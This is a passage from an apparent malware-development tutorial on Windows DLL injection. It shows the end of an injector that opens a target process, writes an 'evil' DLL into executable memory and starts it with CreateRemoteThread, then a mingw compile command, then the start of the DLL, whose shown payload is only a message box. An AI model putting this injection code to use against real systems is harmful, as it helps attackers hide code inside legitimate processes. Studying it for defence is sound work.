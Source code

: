 ```cpp
    printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, 
  NULL, 
  0, (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

compile our `hack2.cpp`:
```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe 
-mconsole -I/usr/share/mingw-w64/include/ -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

![compile injector](./images/9/2021-09-30_03-04.png){width="80%"}

"Evil" DLL is the same:    
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
```